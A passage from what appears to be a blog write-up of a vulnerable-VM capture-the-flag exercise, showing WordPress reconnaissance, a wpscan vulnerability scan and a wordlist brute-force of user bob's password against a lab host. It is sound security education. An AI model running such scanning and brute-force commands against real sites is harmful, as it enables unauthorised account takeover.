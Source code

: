 From HTTP headers and HTML we can figure out software versions:

```md
Apache/2.4.10
PHP/5.6.31 (latest version, at the moment of writing this article)
Wordpress 4.8.1 (latest version)
```

Clicking here and there, I noticed some details:

![Wordpress details](/assets/blog/vulnerable-docker-vm/ctf3.png)

Home leads to http://192.168.0.2:8000

User is **BOB**.

I was hoping to reset BOB’s password by [requesting secret link](http://ctf:8000/wp-login.php?action=lostpassword) and sniffing it out of the traffic using tcpdump.

Unfortunately, they disabled mail() function:

```md
The email could not be sent.
Possible reason: your host may have disabled the mail() function.
```

WordPress is famous for its extensibility. Maybe, there are some vulnerable plugins installed? I’ve googled “wordpress vulnerability scanner” and found [wpscan](https://github.com/wpscanteam/wpscan#wpscan-arguments).

Making use of it:

```shell
$ docker pull wpscanteam/wpscan
$ docker run -it --rm wpscanteam/wpscan -u http://ctf:8000 --enumerate
…
[!] Full Path Disclosure (FPD) in 'http://ctf:8000/wp-includes/rss-functions.php'
…
[!] Title: Akismet 2.5.0-3.1.4 - Unauthenticated Stored Cross-Site Scripting (XSS)
    Reference: https://wpvulndb.com/vulnerabilities/8215
    Reference: http://blog.akismet.com/2015/10/13/akismet-3-1-5-wordpress/
    Reference: https://blog.sucuri.net/2015/10/security-advisory-stored-xss-in-akismet-wordpress-plugin.html
[i] Fixed in: 3.1.5
```

From [here](http://ctf:8000/wp-includes/rss-functions.php) we understand that WordPress is installed under /var/www/html:

```md
Fatal error: Call to undefined function _deprecated_file() in /var/www/html/wp-includes/rss-functions.php on line 8
```

Also, there is Akismet plugin with minor XSS vulnerability. Let’s skip it for now and better try to bruteforce BOB’s password:

```shell
$ docker run -it --rm -v ~/notsosecure:/notsosecure wpscanteam/wpscan -u http://ctf:8000 --wordlist /notsosecure/10_million_password_list_top_1000000.txt --username bob

  [+] [SUCCESS] Login : bob Password : Welcome1

  Brute Forcing 'bob' Time: 00:02:03 <     > (7965 / 1000000)  0.79%  ETA: 04:17:02
  +----+-------+------+----------+
  | Id | Login | Name | Password |
  +----+-------+------+----------+
  |    | bob   |      | Welcome1 |
  +----+-------+------+----------+
```
